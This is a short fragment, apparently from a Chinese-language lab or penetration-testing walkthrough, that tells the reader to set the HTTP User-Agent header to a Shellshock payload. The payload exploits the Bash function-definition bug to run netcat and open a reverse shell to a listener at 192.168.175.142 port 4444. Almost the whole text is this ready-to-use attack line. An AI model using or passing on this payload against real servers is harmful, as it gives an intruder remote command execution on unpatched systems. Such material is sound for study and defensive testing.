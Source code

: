 ![enter image description here](img/img23_u6_png.jpg)

修改 http 协议中的 User-Agent 字段为

```
() { :; }; /bin/bash -c "nc 192.168.175.142 4444 -e /bin/bash -i"

```

